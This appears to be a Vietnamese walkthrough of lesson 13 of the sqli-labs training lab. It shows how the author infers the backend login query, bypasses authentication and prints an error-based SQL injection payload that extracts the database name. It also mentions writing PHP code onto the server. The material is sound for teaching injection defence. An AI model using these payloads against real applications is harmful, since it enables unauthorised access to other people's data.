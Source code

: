 # Less 13

Đề bài có một khung đăng nhập

![](../images/sqli-labs/Less-13/01.png)

Thử đăng nhập

![](../images/sqli-labs/Less-13/02.png)

Tiếp tục thử thêm. Đến khi tôi nhập vào giá trị như sau

![](../images/sqli-labs/Less-13/03.png)

Thì thấy có xuất hiện lỗi trên màn hình

![](../images/sqli-labs/Less-13/04.png)

Dựa vào đây có thể dự đoán câu query có thể là:

```
select * from table where user=('$user') and password=('$passwd') limit 0,1
```

Dựa vào câu query thử thực hiện login

![](../images/sqli-labs/Less-13/05.png)

Ở đây tôi đã thực hiện login thành công mà không cần đến username hay password

![](../images/sqli-labs/Less-13/06.png)

Dựa vào đây ta có thể show các thông tin trong DB giống như các bài trước

```
1') and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --
```

![](../images/sqli-labs/Less-13/07.png)

Ta cũng có thể thêm code PHP lên server như những bài trước